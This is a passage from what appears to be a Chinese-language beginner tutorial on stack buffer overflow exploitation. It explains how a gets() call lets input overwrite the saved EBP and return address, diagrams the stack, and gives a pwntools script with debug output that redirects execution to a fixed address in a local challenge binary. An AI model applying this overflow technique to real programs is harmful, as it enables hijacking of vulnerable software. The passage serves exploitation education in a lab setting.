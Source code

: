 加入我们输入的字符串为:`0x28 * 'a' + 'bbbb' + pwn_addr`,那么由于gets只有读到回车才停,所以这一段字符串会把saved_ebp覆盖为bbbb,将ret_addr覆盖为pwn_addr,那么,此时栈的结构为:

```plain
                                           +-----------------+
                                           |    0x08049182   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

> 注:
>
> > 前面提到,在内存中,每个值按照字节存储.一般都是按照小端存储,所以0x08049182在内存中的形式为

```plain
\x82\x91\x04\x08
```

&emsp;&emsp;很明显,按照ASCII表,这几个字符是不可见的(0x82 0x91 0x04 0x08 这几个老哥在ascii表中的值请自行查看对照)

那么问题来了,怎么才能把这这种不可见字符输进去呢,莫非要买高级键盘?_?,这个时候我们就可以用pwntools了,pwntools是一个很好用的python2的库,专门帮你干坏事.

利用代码如下:

```python
#!	/usr/bin/python2
#选择python2解释器

# -*- coding: UTF-8 -*-
#设置utf-8编码,为了支持中文

from pwn import *  #引入pwntools的库

context.log_level = 'debug' # 开启debug模式,可以记录发送和收到的字符串

sh = process('./a')  #构造与程序交互的对象

payload = 'a' * 40 + 'bbbb' + p32(0x08049182)  # 构造payload

sh.sendline(payload)  # 将字符串发送给程序

sh.interactive() # 将代码变为手动交互

```

然后我们执行一下这个命令:

```sh
root@Aurora:/home/code/pwn/challenge/1 # ./a.py
[+] Starting local process './a': pid 10160
[DEBUG] Sent 0x31 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000020  61 61 61 61  61 61 61 61  62 62 62 62  82 91 04 08  │aaaa│aaaa│bbbb│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[DEBUG] Received 0x33 bytes:
    "Hello,I'm dyf.\n"
    '\n'
    'QAQ\n'
```